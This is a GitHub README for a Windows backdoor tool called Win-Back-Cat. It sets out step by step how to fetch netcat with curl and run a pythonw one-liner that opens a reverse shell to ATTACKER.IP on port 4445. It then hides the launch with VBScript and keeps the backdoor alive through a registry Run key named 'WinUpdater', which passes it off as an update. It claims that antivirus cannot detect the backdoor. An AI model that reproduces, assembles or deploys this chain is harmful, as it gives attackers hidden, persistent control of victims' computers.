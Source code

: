 <p>
  <h3 align="center">Win-Back-Cat</h3>
  <p align="center">
    A fully undetected, hidden, persistent, reverse netcat shell backdoor for Windows.
    <br />
    <br />
    <a href="https://github.com/RAF-87/win-back-cat/issues">Report Bug</a>
    ·
    <a href="https://github.com/RAF-87/win-back-cat/issues">Request Feature</a>
  </p>
</p>

<br />
<br />
<br />

<!-- ABOUT THE PROJECT -->

## About The Project

<br />

### Breakdown:

<br />
- Move into Temp folder with Environment Variable `%TEMP%` as this helps with compatibility between Windows versions.

- Fetch our Netcat version from repo with:<br />
 `curl https://raw.githubusercontent.com/RAF-87/win-back-cat/main/files/nc.exe > nc.exe`
<br />

#### Why? - Reverse Shell

<br />
We need Linux version of Netcat compiled for Windows, instead of the more common OpenBSD version.
<br /><br />
The feature we need is this one:
<br />
- `-e filename`: specify `filename` to exec after connect (use with caution). See the -c option for enhanced functionality.
<br />
In our case the `filename` will be `cmd.exe`. This flag is missing on some versions for obvious Security reasons.
<br />
<br />

#### Pythonw - Undetected

<br />
- Why `pythonw.exe` instead of `python.exe`?

`pythonw.exe` is a GUI app for launching GUI/no-UI-at-all scripts.

- NO console window is opened.
- Execution is asynchronous:
-- When invoked from a console window, the script is merely launched and the prompt returns right away, whether the script is still running or not.

- Windows trusts python. :shrug:

<br />

`pythonw -c "from subprocess import check_output; check_output('nc.exe `ATTACKER.IP` 4445 -e cmd.exe', shell=True);" >> wncat.bat`

We use `-c` to run the script as one-liner from string. We export it onto a batch script for easier execution chained with the next step.

<br />

#### Visual Basic - Hidden
<br />
`Dim WinScriptHost
Set WinScriptHost = CreateObject("WScript.Shell")
WinScriptHost.Run Chr(34) & "%TEMP%\wncat.bat" & Chr(34), 0
Set WinScriptHost = Nothing`

The above script, will run our batch script as a separate process on the background without the user ever seeing anything.

<br />

#### Windows Registry - Persistent

<br />

`reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"`

We add our Visual Basic script to Run from the registry entry when Windows Boots up.
So whenever we lose connection, the backdoor will reopen at the next reboot.

<br /><br />

# Note:
- Using these combined tools, Windows or Any Antivirus cannot detect this backdoor.

<br /><br /><br />

<!-- CONTACT -->
## Contact

- LinkedIn: [https://www.linkedin.com/in/raffaele-paglietti/](https://www.linkedin.com/in/raffaele-paglietti/)
- Email: wize@deadcyber.com
- Project Link: [https://github.com/RAF-87/win-back-cat](https://github.com/RAF-87/win-back-cat)


